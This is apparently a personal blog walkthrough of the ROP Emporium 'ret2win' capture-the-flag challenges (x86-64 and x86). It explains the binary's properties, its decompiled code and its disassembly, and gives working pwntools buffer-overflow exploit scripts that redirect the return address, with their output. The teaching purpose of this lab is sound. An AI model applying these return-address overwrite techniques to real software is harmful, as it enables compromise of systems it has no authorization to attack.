





## ret2win 

In the past I've tried solving ropemporium challenges multiple times, but had a hard time understanding the solutions.

I'm still not confident if I can write coherent explanations for all the challenges, but now I think I kind of get the hang of it. 

You can download the binaries [here](https://ropemporium.com/challenge/ret2win.html).

Download the binary and unzip it with `unzip`.

I'll write the explanations for the 64 bit challenges first because, the majority of the time we'll be working on amd64. 

Run the `file` command to get a rough outline of the binary features. 

```
$ file ret2win 
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```

It's a 64-bit ELF.

`LSB` stands for least significant byte. 

`LSB` is identical to [little-endian](https://en.wikipedia.org/wiki/Endianness).

[stack-exchange](https://unix.stackexchange.com/questions/393384/what-does-lsb-mean-when-referring-to-executable-files-in-the-output-of-bin-fi) has a nice explanation on how `ELF` files determine is the binary is `LSB`.

You probably already know what `x86-64` is. It's an `ISA` that was built as an expansion of `x86`.

Jim Keller and a couple of other people at `AMD` designed it around 1999.

The first processor that uses `x86-64` came out in 2003. 

Check the [wikipedia](https://en.wikipedia.org/wiki/X86-64) page for further details.

I'm not familiar with `version 1 (SYSV)`, but I think it's related to the standards used in `UNIX System V`.

[stackoverflow](https://stackoverflow.com/questions/9470867/linux-file-command-what-does-sysv-imply) has an explanation on it. 

Most `ELF` files are dynamically linked, it's the default-linking in Linux. 

Check out the [wikipedia](https://en.wikipedia.org/wiki/Dynamic_linker) page and [stackoverflow](https://stackoverflow.com/questions/311882/what-do-statically-linked-and-dynamically-linked-mean) for more.

Then there's `/lib64/ld-linux-x86-64.so.2`, which looks a bit intimidating. 

This is the dynamic linker, which is used to execute dynamically linked `ELF`s.

To be honest, completely understanding what  `/lib64/ld-linux-x86-64.so.2` is a bit cryptic. 

So, let's just get a hand of what it is for now. 

Read the [stackexchange](https://unix.stackexchange.com/questions/400621/what-is-lib64-ld-linux-x86-64-so-2-and-why-can-it-be-used-to-execute-file),`--help` , and `man ld.so` for more info. 

Then there's the `GNU/Linux 3.2.0`, which specifies the minium kernel version required to run the binary. 

Here's the kernel version for my Ubuntu machine. 

Check your version by running `uname -a`.

```bash 
$ uname -a
Linux ubuntu 6.17.0-1017-oem #17-Ubuntu SMP PREEMPT_DYNAMIC Fri Mar 27 13:48:03 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
```
Then, comes the build id `BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597`.

A [build-id](https://stackoverflow.com/questions/75452073/understanding-elf-file-build-id) is a unique checksum for your ELF files.

The build-id is generated from the actual bytes from your ELF file.

Therefore, unless you write the exact same code and compile it with the same options, it will usually be different every time. 

Finally the binary is not stripped, meaning that it does have some [debugging-symbols](https://en.wikipedia.org/wiki/Debug_symbol). 

ELF files by default contain some debugging symbols unless you strip it away with the [strip](https://en.wikipedia.org/wiki/Strip_(Unix)) command.

Interpreting the output of the `file` command was lot. 

But it's worth doing all the googling because, the more you know about `ELF` files you'll get a much clearer understanding on executables.

We'll be doing the scripting in Python with [pwntools](https://github.com/gallopsled/pwntools). 

Make sure to install `pwntools` before continuing. 

A lot of ctfers, will run `checksec` from pwntools to see if there are any security-features enabled. 

Learning the security-features on `ELF` files and analyzing the `checksec` output is much harder than the `file` output. 

So, I'll skip this for now. 

Honestly, I'm not that confident in explaining this part. 

If you really want to deep dive check it out yourself.

```bash 
$ checksec ret2win
[*] '/home/hwkim301/rop_emporium/ret2win/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Then use ghidra to decompile the binary. 

Here's what the main function looks like.

```C
undefined8 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

There's also a `pwnme` function as well.

```C
void pwnme(void)
{
  undefined1 local_28 [32];
  memset(local_28,0,0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n");
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}
```

Then comes the `win` function. 

Calling the `win` function seems to be the goal. 

```C 
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

Now let's look at the disassembly. 

Here's the disassembly for the `main` function.



Let's take a loot at the entire disassembly for the `main` function. 

It starts with a `push rbp`, `mov rbp rsp`. 

```
0000000000400697 <main>:
  400697:	55                   	push   rbp
  400698:	48 89 e5             	mov    rbp,rsp
  40069b:	48 8b 05 b6 09 20 00 	mov    rax,QWORD PTR [rip+0x2009b6]        # 601058 <stdout@GLIBC_2.2.5>
  4006a2:	b9 00 00 00 00       	mov    ecx,0x0
  4006a7:	ba 02 00 00 00       	mov    edx,0x2
  4006ac:	be 00 00 00 00       	mov    esi,0x0
  4006b1:	48 89 c7             	mov    rdi,rax
  4006b4:	e8 e7 fe ff ff       	call   4005a0 <setvbuf@plt>
  4006b9:	bf 08 08 40 00       	mov    edi,0x400808
  4006be:	e8 8d fe ff ff       	call   400550 <puts@plt>
  4006c3:	bf 20 08 40 00       	mov    edi,0x400820
  4006c8:	e8 83 fe ff ff       	call   400550 <puts@plt>
  4006cd:	b8 00 00 00 00       	mov    eax,0x0
  4006d2:	e8 11 00 00 00       	call   4006e8 <pwnme>
  4006d7:	bf 28 08 40 00       	mov    edi,0x400828
  4006dc:	e8 6f fe ff ff       	call   400550 <puts@plt>
  4006e1:	b8 00 00 00 00       	mov    eax,0x0
  4006e6:	5d                   	pop    rbp
  4006e7:	c3                   	ret
```



The `pwnme` function as well, starts with a `push rbp`, `mov rbp rsp`.

`pwnme` even has a `sub rsp, 0x20`, creating space for the stack frame.

```
00000000004006e8 <pwnme>:
  4006e8:	55                   	push   rbp
  4006e9:	48 89 e5             	mov    rbp,rsp
  4006ec:	48 83 ec 20          	sub    rsp,0x20
  4006f0:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  4006f4:	ba 20 00 00 00       	mov    edx,0x20
  4006f9:	be 00 00 00 00       	mov    esi,0x0
  4006fe:	48 89 c7             	mov    rdi,rax
  400701:	e8 7a fe ff ff       	call   400580 <memset@plt>
  400706:	bf 38 08 40 00       	mov    edi,0x400838
  40070b:	e8 40 fe ff ff       	call   400550 <puts@plt>
  400710:	bf 98 08 40 00       	mov    edi,0x400898
  400715:	e8 36 fe ff ff       	call   400550 <puts@plt>
  40071a:	bf b8 08 40 00       	mov    edi,0x4008b8
  40071f:	e8 2c fe ff ff       	call   400550 <puts@plt>
  400724:	bf 18 09 40 00       	mov    edi,0x400918
  400729:	b8 00 00 00 00       	mov    eax,0x0
  40072e:	e8 3d fe ff ff       	call   400570 <printf@plt>
  400733:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  400737:	ba 38 00 00 00       	mov    edx,0x38
  40073c:	48 89 c6             	mov    rsi,rax
  40073f:	bf 00 00 00 00       	mov    edi,0x0
  400744:	e8 47 fe ff ff       	call   400590 <read@plt>
  400749:	bf 1b 09 40 00       	mov    edi,0x40091b
  40074e:	e8 fd fd ff ff       	call   400550 <puts@plt>
  400753:	90                   	nop
  400754:	c9                   	leave
  400755:	c3                   	ret
```

Finally, `ret2win` also starts with a `push rbp`, `mov rbp rsp`.

```
0000000000400756 <ret2win>:
  400756:	55                   	push   rbp
  400757:	48 89 e5             	mov    rbp,rsp
  40075a:	bf 26 09 40 00       	mov    edi,0x400926
  40075f:	e8 ec fd ff ff       	call   400550 <puts@plt>
  400764:	bf 43 09 40 00       	mov    edi,0x400943
  400769:	e8 f2 fd ff ff       	call   400560 <system@plt>
  40076e:	90                   	nop
  40076f:	5d                   	pop    rbp
  400770:	c3                   	ret
  400771:	66 2e 0f 1f 84 00 00 	cs nop WORD PTR [rax+rax*1+0x0]
  400778:	00 00 00 
  40077b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

I explained how the return address gets push on to the stack before the function prologue in my previous post [here](https://hwkim301.com/posts/linux/inside-an-empty-main-function/).

Without passing the `-fomit-frame-pointer` flag, all functions will start with a function prologue and end in an epilogue. 

Most of the time unless the compiler(GCC) does optimizations to put local variables and other stuff on the stack frame, the saved 

Right below the previous functions base pointer is the return address. 

Since all the function's start with a `push rbp`, `mov rbp rsp`, we can conclude that the return address is at `$rbp+8`. 

But, what if we change the return address to the address of `win` or any other function we would like to call.

If we change the return address to `win`, the instruction pointer would continue execution at that memory address.

Sending dummy data past the saved base pointer and overwriting the return address can change the control-flow of the program. 

Let's check the actual binary. 

Although you can calculate the offset from the start of the buffer to the return address, I'll use pwn.cyclic so that pwntools can tell me the exact offset. 

After overwriting the frame pointer you can overwrite the return address. 

In this case we'll overwrite the return address with the address of the `win` function.

You should pass the memory address of `win` in little-endian. 

Here's an example of what [p32](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.p32) and [p64](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.p64) do. 



`p64` packs integers into little-endian byte strings. 

If the number is less than characters in hexadecimal it will zero pad the byte string with `b'\x00'`.

You can also see that starting from the MSB it gets stored in a reversed order. 

Little-Endian stores bytes in this manner.

Here's the exploit code.

```python 
from pwn import *

p = process('./ret2win')
e = ELF('./ret2win')
payload = b'A' * 40 + p64(e.symbols['ret2win'])
p.send(payload)
p.interactive()
```

For some reason although the code which seems correct, it doesn't print the content of `flag.txt`. 

It just prints `Well done! Here's your flag:`.

```
For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
[*] Got EOF while reading in interactive
$  
```

What the heck is going on?

According to the `x86-64` ABI, before a function call stack needs to be `16` byte aligned.





In order to align the stack to be a multiple of `16` before the function call, most people usually pass an extra `ret` instruction. 

Understanding stack-alignment and why you need to add a `ret` instruction is pretty difficult. 

For now let's just embrace the fact that when the stack isn't aligned you should pass a `ret` instruction before a function call. 

You can use `ROPgadget` to find the address of the `ret` instruction, but I'll use pwntools.

Here's the updated code that has an extra `ret` to ensure the stack is `16` byte aligned before a function call. 

```python 
from pwn import *

p = process('./ret2win')
e = ELF('./ret2win')
r = ROP('./ret2win')
payload = b'A' * 0x28
payload += p64(r.find_gadget(['ret']).address)
payload += p64(e.symbols['ret2win'])
p.send(payload)
p.interactive()
```

Run the code. 

```
python solve.py 
[+] Starting local process './ret2win': pid 10879
[*] '/home/hwkim301/rop_emporium/ret2win/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[*] Loaded 14 cached gadgets for './ret2win'
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Voila, there's the flag neatly printed. 

A lot of seasoned ctfers refer to these kinds of buffer overflow challenges as [ret2text](https://ctf-wiki.org/en/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2text).


My guess is that it was named that way because the goal in these types of challenges are to call another function that's in the `.text` section in `ELF` binaries.

## ret2win32 

Now let's move on to the 32 bit version. 

Run `file` and `checksec`.

```
$ file ret2win32 
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```

Unlike the 64bit version where it was x86-64, not it's Intel 80386.

The dynamic linker/loader has also changed from `/lib64/ld-linux-x86-64.so.2` to `/lib/ld-linux.so.2`.

My guess is that there's a separate loader for x86-64 and x86.


Let's run checksec to see the security protections enabled on the binary. 

All the security features are turned off.

```
$ checksec ret2win32
[*] '/home/hwkim301/ropemporium/ret2win/ret2win32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Here's the `main` function. 

```c
undefined4 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

This is the `pwnme` function.

```c
void pwnme(void)
{
  undefined1 local_2c [40];
  
  memset(local_2c,0,0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n");
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}
```

We need to call `ret2win`. 

```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

Here's the exploit code. 

```python
from pwn import *

p = process('./ret2win32')
e = ELF('./ret2win32')

payload = b'A' * 44 + p32(e.symbols['ret2win'])
p.send(payload)
p.interactive()
```

The only thing you need to keep in mind, is that for `x86` the return address will be at `ebp+4` if GCC doesn't optimize the stack frame. 

Again instead of relying on the fact that the return address will be at `ebp+4` you should use `pwn.cyclic`.

Don't forget to use `p32` instead of `p64`.

It's because `x86` uses 32 bit size(DWORD) registers with an `e` prefix.  

I'm not very confident in finding offsets with pwn.cyclic and ensuring the bytes in gdb. 

I'll add some more when I can understand it a bit later.